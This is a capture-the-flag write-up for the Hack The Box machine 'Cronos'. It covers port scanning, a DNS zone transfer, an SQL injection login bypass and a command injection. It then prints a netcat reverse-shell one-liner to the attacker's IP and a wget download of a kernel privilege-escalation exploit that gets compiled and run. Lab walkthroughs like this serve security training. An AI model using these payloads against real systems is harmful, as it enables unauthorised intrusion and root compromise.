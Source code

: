 # Cronos -- hack the box

![AEpKkq.png](https://s2.ax1x.com/2019/03/14/AEpKkq.png)

## Introduction

Target machine: 10.10.10.13(OS: linux)

Kali linux: 10.10.16.44

## Enumeration

Firstly, detect the open ports:

```
nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.13
```

![openports](https://github.com/neal1991/htb/blob/master/Cronos/openports.png)

3 ports is open, detect the detailed services:

```
namp -sV -sC -p22.53.80 -Pn -oA services 10.10.10.13
```

![services](https://github.com/neal1991/htb/blob/master/Cronos/services.png)

So we can conduct the relation of ports of ports and services as following:

port|service
---|---
53|DNS
22|ssh
80|http

## Exploitation

### http

As the target machine provides http service, try to access `http://10.10.10.13`

![default web](https://github.com/neal1991/htb/blob/master/Cronos/80.png)

Default apache web page, nothing new. So try to brute force `http://10.10.10.13/` with dirbuster. After brute force for a period time, we have not found anything new.

### DNS

As the target machine owns DNS service. It is common to check zone transfer with `dig`. As we can have a guess of the dns domain of `cronos.htb`. So zone transfer can be checked by:

```
dig axfr @10.10.10.13 cronos.htb
```

![dns](https://github.com/neal1991/htb/blob/master/Cronos/dns.png)

An interestring domain name `admin.cronos.htb` is found. So add an entry into `/etc/hosts`:

```
10.10.10.13    admin.cronos.htb
```

Try to access `admin.cronos.htb` in the browser, a login web page is displayed. Yep, it is what we want. It seems that the login is quite simple. Try to login with sql injection with the username of `admin ' or '1' = '1`, the password can be anything.

![login](https://github.com/neal1991/htb/blob/master/Cronos/login.png)

![pass](https://github.com/neal1991/htb/blob/master/Cronos/pass.png)

Magic! We are in. It seems that it is a network tool. However, it seems that it has exposed the ability to execute command remotely. Have a test of `8888&whoami`:

![whoami](https://github.com/neal1991/htb/blob/master/Cronos/whoami.png)

The result is `www-data`. Obviously, the command can executed properly. Now try to reverse the shell. Try to listen to port `1234` by nc in our kali:

```
nc -lvnp 1234
```

Then use the bash reverse shell command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f
```

Wait for server second, shell is return. Wonderful!

![nc](https://github.com/neal1991/htb/blob/master/Cronos/nc.png)

Try to obtain a tty terminal:

```
python -c "import pty;pty.spawn('/bin/sh')"
```

Obviously, the user role can be obtained. Go the `home` folder and `ls`， then go into the user folder to get user.txt.

## Privilege escalation

It's time to get the root role. See the kernel of the target machine:

```
uname -a
```

Google linux kernel privilege escalation, find a [payload](https://www.exploit-db.com/exploits/44298)

![AEmLVK.png](https://s2.ax1x.com/2019/03/15/AEmLVK.png)

Server a http server to provide the payload, name it as exploit.c:

```
pythoon -m SimpleHTTPServer 80
```

There are serveal ways to provide http file services, including: php, apache, python, etc. Pyhton is quite convinient. Then download the `exploit.c` in the target machine:

```
wget http://10.10.16.22/exploit.c
```

Then try to compile it with gcc. Opps, gcc seems has not been installed in the target machine. In general, linux will install gcc. Whatever, compile the `exploit.c` in kali:

```
gcc exploit.c -o exploit
```

Remember to download the file from a folder with permission, just like `/tmp`:

```
cd /tmp
wget http://10.10.16.44/exploit
```

Make sure to have execution permission by:

```
chmod +x exploit
```

Just execute it by `./exploit`. Wow, now see whoami.

![root](https://github.com/neal1991/htb/blob/master/Cronos/root.png)

## Conclusion

The target machine is quite straitforward. The basic point is the zone transfer of DNS exploit. And other steps is not difficult with basic knowledges including: sql injection, reverse shell, etc.




